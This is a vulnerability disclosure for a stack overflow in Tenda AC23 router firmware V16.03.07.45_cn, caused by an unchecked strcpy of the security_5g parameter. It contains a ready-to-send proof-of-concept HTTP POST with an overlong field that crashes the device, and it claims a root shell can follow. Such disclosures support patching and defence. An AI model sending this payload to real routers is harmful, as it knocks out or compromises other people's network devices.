

# Tenda AC23 V16.03.07.45_cn Stack overflow vulnerability

## Firmware information

- Manufacturer's address: https://www.tenda.com.cn/
- Firmware download address: https://www.tenda.com.cn/download/detail-3420.html

## Affected version

I have verified that **Tenda AC23 V16.03.07.45_cn** products have stack overflow vulnerability, and other series products have not been verified for the time being.

## Vulnerability details


```
formWifiBasicSet -> sub_451DF8 -> sub_451BB0 -> sub_451784
```

`sub_451784`



This function gets the parameter **security_5g** from the user input, but does not verify the length of the user input. The `strcpy `function is then called to assign **security_5g** directly to the **stack**, resulting in a stack overflow vulnerability.


## POC

```
POST /goform/WifiBasicSet HTTP/1.1
Host: 192.168.0.1
Content-Length: 1183
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/wireless_ssid.html?random=0.6998770062426756&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=25d55ad283aa400af464c76d713c07adnixcvb
Connection: close

doubleBand=1&wrlEn=1&wrlEn_5g=1&security=wpapsk&security_5g=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&ssid=Tenda_EB67C0&ssid_5g=Tenda_EB67C0&hideSsid=0&hideSsid_5g=0&wrlPwd=12345678&wrlPwd_5g=12345678
```

By running the poc, you can see the crash.

With careful construction of the exp, we can finally get the root shell.


